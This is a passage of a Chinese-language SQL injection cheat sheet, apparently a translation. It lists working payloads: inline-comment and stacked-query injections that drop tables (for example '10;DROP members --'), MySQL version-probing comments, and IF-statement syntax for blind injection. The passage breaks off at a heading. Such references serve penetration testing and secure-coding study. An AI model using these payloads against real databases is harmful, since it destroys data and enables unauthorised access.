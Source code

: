 #### 使用了行内注释的注入攻击样例

> ID:`10; DROP TABLE members /*`

简单地摆脱了处理后续语句的麻烦，同样你可以使用`10; DROP TABLE members --`

#### MySQL版本探测攻击样例

> `SELECT /*!32302 1/0, */ 1 FROM tablename`

如果MySQL的版本高于**3.23.02**，会抛出一个`division by 0 error`

> ID:`/*!32302 10*/`
> 
> ID:`10`

如果MySQL版本高于3.23.02，以上两次查询你将得到相同的结果

### 堆叠查询(Stacking Queries)

**一句代码之中执行多个查询语句**，这在每一个注入点都非常有用，尤其是使用SQL Server后端的应用

*   `;`(S)`SELECT * FROM members; DROP members--`结束一个查询并开始一个新的查询

#### 支持堆叠查询的语言/数据库

**绿色：**支持，**暗灰色：**不支持，**浅灰色：**未知

![enter image description here](http://drops.javaweb.org/uploads/images/7eba77f1e9332de0158f5a1ae5de6ca3a1526df1.jpg)

#### 关于MySQL和PHP

阐明一些问题。

**PHP-MySQL不支持堆叠查询**，Java不支持堆叠查询（ORACLE的我很清楚，其他的就不确定了）。一般来说MySQL支持堆叠查询，但由于大多数PHP-Mysql应用框架的数据库层都不能执行第二条查询，或许MySQL的客户端支持这个，我不确定，有人能确认一下吗？

_（译者注：MySQL 5.6.20版本下客户端支持堆叠查询）_

#### 堆叠注入攻击样例

> ID:`10;DROP members --`

构成语句：`SELECT * FROM products WHERE id = 10; DROP members--`

这在执行完正常查询之后将会执行DROP查询。

### If语句

根据If语句得到响应。这是**盲注(Blind SQL Injection)的关键之一**，同样也能简单而**准确地**进行一些测试。

#### MySQL的If语句

*   `IF(condition,true-part,false-part)`(M)
    
    > `SELECT IF (1=1,'true','false')`
    

#### SQL Server的If语句
